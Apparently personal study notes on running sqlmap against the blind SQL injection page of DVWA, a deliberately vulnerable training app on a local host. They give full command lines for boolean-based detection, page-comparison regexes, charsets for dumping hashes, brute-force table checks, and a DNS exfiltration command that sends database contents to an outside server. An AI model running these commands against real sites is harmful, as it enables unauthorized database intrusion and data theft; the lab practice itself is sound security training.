 # SQLMap

Search Tag: #blind-sql-injection #sqlmap #dvwa

## Boolean-Based

## Time-Based

--time-sec=10

### Enumeration

--first=FIRSTCHAR   First query output word character to retrieve  
--last=LASTCHAR     Last query output word character to retrieve

### Page comparison

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --random-agent --dbms=mysql --technique=B --string="User ID exists in the database." --not-string="User ID is MISSING from the database." --code=200
```

- We can combine the two flags (`--string` and `--not-string`) into one using the `--regexp` flag. We'll take the response `(?!is MISSING from)` to negate the match regex and match `(exists in)` positively.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --random-agent --dbms=mysql --technique=B --regexp="User ID ((exists in)|(?\!is MISSING from)) the database." --code=200
```

These are the python regexes that works so far.

```
User ID ((exists in)|(?!is MISSING from)) the database.
User ID (?!is MISSING from)exists in the database.
User ID exists in(?!is MISSING from the database.
User ID (?!is MISSING from)[a-zA-Z ]*the database.
User ID (?!is MISSING from)[a-zA-Z ]+the database.
User ID (?!is MISSING from)[a-zA-Z ]{9} the database.
User ID (?!is MISSING from)[a-zA-Z ]{10}the database.
```

--smart             Perform thorough tests only if positive heuristic(s)
--text-only         Compare pages based only on the textual content
--titles            Compare pages based only on their titles

### Bruteforce

For dumping hashes

```
--charset="1234567890abcdef"
```

```
--charset="1234567890ABCDEF"
```

```
--charset="1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
```

### Frequency Analysis

Brute force:
These options can be used to run brute force checks

--common-tables     Check existence of common tables

uses `sqlmap/data/txt/common-tables.txt`

--common-columns    Check existence of common columns

uses `sqlmap/data/txt/common-columns.txt`

--common-files      Check existence of common files

uses `sqlmap/data/txt/common-files.txt`

--safe-url=SAFEURL  URL address to visit frequently during testing
--safe-freq=SAFE..  Regular requests between visits to a safe URL


### Speed

Optimization:
These options can be used to optimize the performance of sqlmap

-o                  Turn on all optimization switches

--predict-output    Predict common queries output

uses `sqlmap/data/txt/common-outputs.txt`

--keep-alive        Use persistent HTTP(s) connections
--null-connection   Retrieve page length without actual HTTP response body
--threads=THREADS   Max number of concurrent HTTP(s) requests (default 1)

### DNS Exfiltration (Out-of-band SQL Injection)

TODO: Demonstrate DNS exfiltration via sqlmap in blind SQLi

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dns-domain=<dns_server_IP> -D dvwa
```